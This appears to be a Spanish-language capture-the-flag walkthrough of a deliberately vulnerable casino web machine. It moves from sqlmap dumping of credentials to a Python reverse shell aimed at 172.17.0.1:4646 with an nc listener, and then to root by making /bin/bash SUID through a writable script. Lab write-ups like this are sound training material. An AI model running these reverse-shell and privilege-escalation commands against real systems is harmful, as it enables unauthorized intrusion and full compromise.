 

Lo primero es hacer un escaneo de puertos y servicios con nmap.
![[Pasted image 20240810013800.png]]
Accedo al recurso, es una página de un casino, voy a la opción de Login y me encuentro un formulario.
![[Pasted image 20240810014001.png]]
Intento iniciar con unas credenciales admin admin para ver si puedo entrar.
![[Pasted image 20240810014111.png]]
Voy a realizar un poco de fuzzing web con gobuster.
![[Pasted image 20240810020742.png]]
No encuentro nada útil asique voy a intentar obtener la base de datos con sqlmap.
![[Pasted image 20240810021003.png]]
Primero voy a intentar obtener las bases de datos.
![[Pasted image 20240810021037.png]]
Ahora voy a intentar obtener las tablas de la base de datos users.
![[Pasted image 20240810021131.png]]
![[Pasted image 20240810021143.png]]
Lo siguiente es obtener las columnas de la tabla usuarios.
![[Pasted image 20240810021410.png]]
![[Pasted image 20240810021417.png]]
Para ver el contenido de las columnas.
![[Pasted image 20240810021527.png]]
![[Pasted image 20240810021533.png]]
Voy al formulario e inicio sesión como el usuario joe con la password MiClaveEsInhackeable.
![[Pasted image 20240810021651.png]]
Encuentro un panel de administración, lo que me hace pensar que joe es un administrador.
Veo que me pide que introduzca un comando Python.
Puedo leer archivos como el de los usuarios de la máquina.
![[Pasted image 20240810022150.png]]
Voy a intentar ejecutar una reverse shell para conseguir acceso al sistema.
Primero me pongo en escucha por el puerto 4646 utilizando netcat.
```
nc -lvnp 4646
```
Y luego ejecuto el comando.
![[Pasted image 20240810023548.png]]
```
import os,pty,socket;s=socket.socket();s.connect(("172.17.0.1",4646));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
```
Ahora haré el tratamiento de la TTY.
```bash
script /dev/null -c bash
Control + Z
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
```
Voy a ver si hay algún archivo en el directorio /tmp que son archivos temporales.
![[Pasted image 20240810024550.png]]
Veo un archivo txt oculto, listo su contenido y son diferentes comandos de trucos del videojuego gta san andreas.
Lo importante es que hay un nuevo posible usuario llamado Martin, pero este usuario no se encuentra en el archivo /etc/passwd como vi anteriormente cuando lo listé desde el panel del administrador.
Voy a ver si puede ser posible que la contraseña de Joe o Luciano se encuentre en este .txt por lo que me lo voy a copiar y además como todas están en mayúsculas, voy a crear el mismo fichero pero con todas minúsculas.
En el archivo passwd.txt guardo las passwords en mayúsculas y en el passwd2.txt las minúsculas. 
![[Pasted image 20240810025816.png]]
Con el archivo con las contraseñas en mayúsculas no consigo nada sin embargo con el de las minúsculas y el usuario joe consigo las credenciales para acceder por ssh a la máquina.
![[Pasted image 20240810030103.png]]
Inicio sesión en ssh como joe.
![[Pasted image 20240810030124.png]]
Voy a intentar escalar privilegios.
Consigo ser el usuario Luciano gracias al siguiente binario.
![[Pasted image 20240810030452.png]]
En el directorio de Luciano, encuentro que puedo ejecutar como root un script.sh que me proporciona una reverse shell.
![[Pasted image 20240810030632.png]]
Tengo que cambiar el contenido para cambiar los permisos sobre el binario /bin/bash, pero antes un tratamiento de TTY.
```
script /dev/null -c bash
```
Ahora voy a modificar el contenido de la siguiente forma con el comando echo.
```bash
echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > script.sh
```
Para obtener una bash como root tengo que ejecutar el comando **bash -p**.
![[Pasted image 20240810032612.png]]
